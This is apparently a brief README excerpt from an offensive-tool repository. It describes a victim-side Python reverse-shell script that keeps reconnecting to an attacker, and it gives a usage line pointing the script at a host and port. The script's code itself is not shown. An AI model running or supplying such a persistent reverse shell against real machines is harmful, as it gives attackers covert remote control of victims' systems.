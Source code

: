 ## Reverse shell victim side scripts

  
  

***[ex-rs-v-000001.py](https://github.com/IliyaBadri/Enterploit/blob/main/Exploits/Reverse-Shell/Victim/rs-v-000001.py)***:
This script reconnects to the attacker even after an error. This script also tries reconnecting even if the attacker is not present.

**Usage**

    python3 rs-v-000001.py -i 127.0.0.1 -p 8888
